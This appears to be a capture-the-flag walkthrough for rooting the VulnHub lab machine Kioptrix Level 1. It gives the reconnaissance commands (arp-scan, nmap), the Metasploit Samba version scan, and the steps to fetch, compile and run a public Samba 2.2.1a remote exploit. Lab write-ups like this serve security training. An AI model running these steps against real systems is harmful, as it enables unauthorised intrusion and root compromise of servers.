

## Introduction
Welcome to the Kiotrix Level 1 challenge. This is a walkthrough for hacking the vulnerable machine **Kioptrix Level 1** from VulnHub. There are various ways to root this box, and I will keep the process clear and concise. Let's get started.

## Challenge Details
- **Name:** Kiotrix Level 1  
- **Category:** Boot2Root  
- **Difficulty:** Easy

## Prerequisites
Before you begin, ensure that you have the following:
- **Kali Linux** or any other preferred penetration testing distribution.
- **Kioptrix Level 1 VM** installed and running.

## Walkthrough
### Step 1: Reconnaissance
#### Network Discovery and Setupp
Execute the following command on your attack machine to check if Kioptrix Level 1 is on the network:
```bash
arp-scan -l
```
If Kioptrix is not detected, troubleshoot and ensure it is installed correctly.

Identified IP address:
```bash
192.168.10.171
```
<!--restrict-here--->

### Step 2: Enumeration
Run an Nmap scan to identify open ports and services:
```bash
nmap -A -p- -T4 192.168.10.171
```
The results show that **port 80 is open**, displaying a test page in the browser.


Additionally, **Samba service** is detected, which will be crucial for privilege escalation.

### Step 3: Samba Enumeration
Utilize `enum4linux` and `smbclient` to confirm the presence of Samba on the remote host.

Start Metasploit and use the auxiliary scanner:

```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.10.171
run
```

The results show that **Samba 2.2.1a** is running, which is vulnerable to multiple exploits.

### Step 4: Exploitation - Samba 2.2.1a
Search for available exploits using `searchsploit`:
```bash
searchsploit samba 2.2.1a
```
The results show multiple exploits, and we choose `multiple/remote/10.c`.

Download the exploit:
```bash
searchsploit -m multiple/remote/10.c
```

Compile the exploit:
```bash
gcc -o sambaexploit 10.c
```

Execute the exploit:
```bash
./sambaexploit -b 192.168.10.171
```

After execution, verify root access:
```bash
whoami
```


## Conclusion
You've successfully completed Kiotrix Level 1. This walkthrough provided a step-by-step guide to solving the challenge. If you encountered any issues or have questions, feel free to reach out!

Remember to document and understand the techniques used, as they may be helpful in future CTFs. **Happy hacking!**
